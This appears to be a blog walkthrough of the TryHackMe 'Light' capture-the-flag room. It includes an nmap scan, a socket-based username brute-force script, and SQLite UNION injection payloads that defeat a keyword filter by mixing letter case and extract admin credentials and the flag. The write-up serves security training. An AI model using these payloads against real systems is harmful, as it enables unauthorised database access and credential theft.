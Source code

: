 ```yaml
---
layout: post
title: "TryHackMe Light Walkthrough - SQL Injection Challenge"
description: "Complete step-by-step walkthrough for TryHackMe's Light room featuring SQLite injection techniques, database enumeration, and admin credential extraction. Perfect for beginners learning SQL injection fundamentals."
date: 2025-08-15 10:00:00 +0000
categories: [Cybersecurity, Writeups, Tryhackme]
tags: [tryhackme, thm, sql-injection, sqlite, database, enumeration, ctf, easy]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838
sitemap:
  priority: 0.8
  changefreq: monthly
---
```



# TryHackMe Light Walkthrough
Link to the Room : https://tryhackme.com/room/lightroom

```
I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE-IP 1337`  
You can use the username `smokey` in order to get started.
```
Lets start the machine and wait for 2-3 minutes, let the machine get fully functional.

`Q1 What is the admin username?`

As usual running a full port scan for identifying potential entry points.
`nmap -p- -T4 MACHINE-IP -vv`
![Nmap scan results](/assets/img/Pasted image 20250816001828.png)

Meanwhile lets try connecting to the port 1337
`nc MACHINE-IP 1337`
Lets try the username provided `smokey`
![Testing with username smokey](/assets/img/Pasted image 20250816002133.png)
Alright!

So, I guess we can try brute-forcing a wordlist of usernames, but we cannot use ffuf...
So,
I took this script from ChatGPT, and modified it little to make it work.
```python
import socket

target_ip = "10.201.15.128"  # change this
target_port = 1337
wordlist = "SecLists/Usernames/cirt-default-usernames.txt"  # your username list

with open(wordlist, "r") as f:
    usernames = [u.strip() for u in f if u.strip()]

for user in usernames:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))

    # Receive initial banner / prompt
    banner = s.recv(1024).decode()
    print(banner.strip())

    u = s.recv(1024).decode()
    print(u.strip())

    # Send username
    s.send((user + "\n").encode())

    # Receive response
    response = s.recv(1024).decode()
    print(f"[{user}] -> {response.strip()}")

    s.close()

```

I tried few wordlists but didn't find anything.

Got back to the nmap scan and LOL!, its gonna take forever so its not the way in for sure!
![Nmap scan taking too long](/assets/img/Pasted image 20250816003201.png)

What else can we do? Found no `http` pages, where can we even use the credentials we've got earlier?
Lets try to change the approach.

Lets try putting in some random input, my mind is getting a little idea of where it is going _maybe_.
![Testing random input](/assets/img/Pasted image 20250816003925.png)
Its more of an Injection vulnerability I see
Its been a long I have not dealt with a SQLi, now quickly digging through my notes for revising required methods.

From the responses below
![SQL injection response](/assets/img/Pasted image 20250816004841.png)
I can imagine of a SQL query
`select pass from users where user='<input>' limit 30`

Now we'll try creating some SQL payloads based on the payloads I already have in my notes.
`'union select 1'`
![Union select blocked](/assets/img/Pasted image 20250816005530.png)
Okhayy!
They might be blocking some keywords most probably as an easy way out. 
Here might be a logic error lets try `'UnIOn sElecT 1'`
![Bypassing keyword filter](/assets/img/Pasted image 20250816005739.png)
as a developer I would also blacklist these keywords as its an easy fix(not a fix really). Laziness is a problem frr.
I love these kinda logic based errors!

Lets start enumerating.
`'Union Select @@version'`
Didn't work maybe some other database!

Refer this https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration

This one worked
`'Union Select sqlite_version()'`
Its sqlite database version: 3.31.1
![SQLite version](/assets/img/Pasted image 20250816010644.png)

Using the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) Repository for reference!

`'Union Select sql from sqlite_master'`
![Database schema](/assets/img/Pasted image 20250816010906.png)

Now we know the table name, column names.
Enough to craft useful payloads.

> You can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) and suitable LLM for crafting payloads

`'Union Select username from admintable where id='1`
![Admin username](/assets/img/Pasted image 20250816011619.png)
If needed we could've dumped all but in this case we don't need the whole database.

![Question 1 answer](/assets/img/Pasted image 20250816011809.png)

`Q2 What is the password to the username mentioned in question 1?`
`'Union Select password from admintable where username='<admin-user>`
![Admin password](/assets/img/Pasted image 20250816012001.png)

![Question 2 answer](/assets/img/Pasted image 20250816012439.png)

`Q3 What is the flag?`
Till now you could've figured it out, we have already got the id for the user flag, so most probably its password will be the final flag.
Little modifications to the previous payload will get you the flag.

![Question 3 flag](/assets/img/Pasted image 20250816012516.png)




